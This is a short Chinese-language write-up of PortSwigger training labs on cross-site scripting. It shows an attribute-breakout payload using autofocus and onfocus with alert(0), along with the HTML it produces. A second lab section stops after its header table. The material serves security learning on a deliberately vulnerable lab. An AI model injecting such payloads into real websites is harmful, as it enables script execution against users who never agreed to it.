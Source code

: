 ## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

| Dimension | Description                                                                                                  |
| --------- | ------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-html-tag-attributes                |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded |

後來發現注入點在 `<input value="">` 這邊

payload


```
123" autofocus onfocus="alert(0)" data-type="456
```

會變成


```html
<input value="123" autofocus onfocus="alert(0)" data-type="456" />
```

這次是透過 AI 學到 `autofocus onfocus="alert(0)"` 這個新的方法，主要是因為這個組合比較少用XD

![input-onfocus](../../static/img/input-onfocus.jpg)

## Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-html-tag-attributes                    |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded |

